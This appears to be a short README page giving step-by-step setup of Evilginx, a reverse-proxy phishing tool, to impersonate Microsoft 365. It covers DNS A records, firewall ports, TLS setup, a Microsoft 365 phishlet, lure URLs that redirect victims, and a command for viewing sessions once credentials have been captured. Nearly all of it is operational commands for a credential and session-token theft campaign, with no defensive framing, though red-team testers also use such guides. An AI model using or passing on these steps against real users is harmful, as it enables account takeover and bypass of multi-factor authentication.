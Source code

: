 ## Evilginx setup

### Initial config
1.  Set A records in phishing domain settings to proxy the traffic for.
2. Check Evilginx VM firewall settings (e.g. NSG Settings in Azure)
- Inbound 443/TCP & 53/UDP needs to be allowed during setup when setting certificates
```
[19:10:00] [inf] obtaining and setting up 4 TLS certificates - please wait up to 60 seconds...
[19:10:00] [inf] successfully set up all TLS certificates"
```
..after setup, TCP/443 access can be limited to specific source IP-addresses.

3. Create a phishlet to `/usr/share/evilginx/phishlets/` <br>
4. Run Evilginx: `sudo evilginx`

### Evilginx config
`config ipv4 external <EVILGINXVMEXTERNALIP>`<br>
`config unauth_url https://microsoft365.com`

### Phishlets
`phishlets hostname microsoft365 mydomain.local` <br>
`phishlets enable microsoft365`

### Lures
`lures create microsoft365` <br>
`lures edit 0 redirect_url https://microsoft365.com` <br>
`lures get-url 0`

### Sessions (after credentials have been captured)
`sessions <n>`
